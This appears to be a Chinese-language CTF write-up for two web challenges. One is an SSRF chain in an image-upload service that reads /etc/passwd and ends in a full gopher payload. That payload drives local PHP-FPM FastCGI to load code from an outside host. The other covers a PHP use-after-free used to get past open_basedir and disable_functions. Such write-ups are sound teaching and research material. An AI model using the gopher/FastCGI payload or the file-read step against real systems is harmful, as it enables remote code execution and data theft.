 0x04 400 lalala (2 隊解)
=====

一個可以給使用者上傳圖片或是提供網址幫你抓起來上傳圖片的服務  
核心概念就是透過 302 redirect 去繞過限制實現 SSRF，並且再透過 SSRF 中的 gopher 去利用本地的 FastCGI prtocol 實現遠端代碼執行

在抓取圖片的時候可以使用 302 去做 SSRF  
(其實很多人在研究 SSRF 的時候都忽略的 302 的妙處)

在 SSRF 中可以讀檔  
(`Location: file://localhost/etc/passwd`)

會發現伺服器的架構是使用 Nginx + PHP-FPM  
其中 PHP-FPM fastcgi protocol 是以 bind port 的方式跑在本機上

在真實世界中，只要發現對方的 PHP FastCGI 是可以外連的話那就可以拿 shell  
所以使用 gopher 構造 FastCGI Protocol 訪問本機的 9001 port 就可以任意代碼執行

```
Location: gopher://127.0.0.1:9001/x%01%01i%13%00%08%00%00%00%01%00%00%00%00%00%00%01%04i%13%00%8B%00%00%0E%03REQUEST_METHODGET%0F%0FSCRIPT_FILENAME/_www/index.php%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%09%26PHP_VALUEauto_prepend_file%20%3D%20http%3A//orange.tw/x%01%04i%13%00%00%00%00%01%05i%13%00%00%00%00

```

(使用 PHP_ADMIN_VALUE 把`allow_url_include`設成`on`以及新增`auto_prepend_file`到自己的網站)

這題比較有趣的另外一個點是，如果有實作過 SSRF 搭配 gopher 的話，應該會發現  
Java 中的 gopher 只能接受 0x00 - 0x7f  
libcurl 中的 gopher 只能接受 0x01 - 0xff

然後本題使用 PHP 中的`curl_exec`，會使用到 libcurl 無法使用 NULL Byte  
但是構造 FastCGI Protocol 的話非得有 NULL Byte 不可  
後來去研究了一下 libcurl 的原始碼，發現是因為寫得有點問題才不能使用 NULL Byte  
所以送了一個 commit 過去還被接受了...XD

> [https://github.com/bagder/curl/commit/5bf36ea30d38b9e00029180ddbab73cab94a2195](https://github.com/bagder/curl/commit/5bf36ea30d38b9e00029180ddbab73cab94a2195)

所以現在新版本的 libcurl / curl 應該 gopher 都可以使用 NULL Byte 了XD

0x05 500 Use-After-FLEE (1 隊解)(只有 PPP 解出)
=====

身為 Web 最難題XD  
許多時候，在做滲透測試時都會遇到，打進一台虛擬主機(hosting)後要去訪問同主機上的其他網站會被`open_basedir`以及`disable_functions`限制住

但 PHP 在歷史上出現過了許許多多的 Memory 上的洞，這題使用到的就是其中一個  
( 出題時 Ubuntu apt-get 預設安裝的 PHP 還是有洞，不過寫這篇文章時好像已經修了XD )

漏洞 PoC 的話可參考 80vul 的 PHP Codz Hacking  
不過只有 PoC :(

> [https://github.com/80vul/phpcodz/blob/master/research/pch-034.md](https://github.com/80vul/phpcodz/blob/master/research/pch-034.md)

使用 Use-After-Free 去繞過上面限制，說的好像很簡單，不過在現今作業系統中有很多的保護你必須面對

1.  DEP
2.  FULL ASLR
3.  PIE (Apache 預設全開)
4.  FULL RELRO (Apache 預設全開)
5.  由於環境在 Apache + mod_php 上，PHP 是以 Library 的形式被載入到 Apache 中，所以再利用難度上會增加(純 CLI 其實很容易 Exploit)，例如要自己處理 Parsing ELF 的動作XD
